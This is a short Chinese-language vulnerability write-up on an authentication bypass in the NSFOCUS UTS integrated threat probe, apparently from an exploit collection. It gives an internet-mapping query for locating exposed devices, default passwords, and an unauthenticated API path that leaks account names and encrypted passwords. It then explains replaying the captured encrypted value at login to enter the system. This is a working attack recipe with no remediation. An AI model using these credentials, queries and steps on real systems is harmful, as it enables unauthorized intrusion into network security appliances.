


# 绿盟 UTS综合威胁探针 信息泄露登陆绕过漏洞

## 漏洞描述

绿盟 UTS综合威胁探针 某个接口未做授权导致未授权漏洞

## 漏洞影响

```
绿盟 UTS综合威胁探针
```

## 网络测绘

```
app="NSFOCUS-UTS综合威胁探针"
```

## 漏洞复现

默认口令

```
admin/Nsfocus@123
auditor/auditor
```

登陆页面



验证POC

```
/webapi/v1/system/accountmanage/account
```



这里出现了登录的账号以及加密的 PASS

登陆时的加密字段抓包修改为获取的就可以登陆系统


